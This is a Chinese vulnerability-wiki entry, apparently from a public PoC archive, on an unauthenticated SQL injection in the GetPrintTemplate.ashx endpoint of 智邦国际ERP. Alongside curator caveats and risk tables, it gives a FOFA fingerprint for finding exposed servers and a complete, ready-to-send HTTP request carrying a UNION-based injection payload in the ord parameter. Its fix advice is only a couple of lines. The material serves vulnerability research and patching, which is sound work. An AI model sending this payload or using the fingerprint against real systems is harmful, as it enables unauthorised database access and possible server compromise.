

# 智邦国际ERP GetPrintTemplate ord SQL 注入

> 指纹字段校订（2026-10-04）：本文原归档明确标为 FOFA 的完整表达式已记入 `fofa`；原残缺 `fofa_unverified` 值逐字保存在 `previous_fofa_unverified`。后文关于该字段残缺的旧说明只描述校订前状态。查询用于产品检索，不证明资产受影响。

## 条目说明

- 对象与具体问题：智邦国际ERP；GetPrintTemplate ord SQLi
- 版本、配置及部署条件：无版本
- 认证与权限前提：声称未认证
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 完整常量UNION请求需给解码预期串与正常差分，结果只图
- FOFA截断，缺根因/build/修复；任意查询/服务器控制依赖DB权限
- 在野状态无引证

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

智邦国际ERP GetPrintTemplate.ashx SQL注入，未授权攻击者可进行任意数据库查询操作，甚至可能获取服务器权限。

## 影响版本

智邦国际ERP 

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="Win7以上版本系统请以管理员模式运行"

POC/EXP：

```http
GET /SYSN/json/pcclient/GetPrintTemplate.ashx?sort=1&ord=-1+UNION+ALL+SELECT+NULL%2CCHAR%28113%29%2BCHAR%28106%29%2BCHAR%28122%29%2BCHAR%28122%29%2BCHAR%28113%29%2BCHAR%2869%29%2BCHAR%2899%29%2BCHAR%2881%29%2BCHAR%2881%29%2BCHAR%28104%29%2BCHAR%2889%29%2BCHAR%2879%29%2BCHAR%28103%29%2BCHAR%28109%29%2BCHAR%28111%29%2BCHAR%28117%29%2BCHAR%2866%29%2BCHAR%2877%29%2BCHAR%2875%29%2BCHAR%28122%29%2BCHAR%2866%29%2BCHAR%2881%29%2BCHAR%28111%29%2BCHAR%28105%29%2BCHAR%2865%29%2BCHAR%28118%29%2BCHAR%28106%29%2BCHAR%28109%29%2BCHAR%2865%29%2BCHAR%28107%29%2BCHAR%28118%29%2BCHAR%2890%29%2BCHAR%2871%29%2BCHAR%2886%29%2BCHAR%28110%29%2BCHAR%28113%29%2BCHAR%2875%29%2BCHAR%2880%29%2BCHAR%28104%29%2BCHAR%2879%29%2BCHAR%28116%29%2BCHAR%2879%29%2BCHAR%2871%29%2BCHAR%28103%29%2BCHAR%2873%29%2BCHAR%28113%29%2BCHAR%28107%29%2BCHAR%28120%29%2BCHAR%28106%29%2BCHAR%28113%29%2CNULL%2CNULL%2CNULL--+vlPx HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Upgrade-Insecure-Requests: 1
```




## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
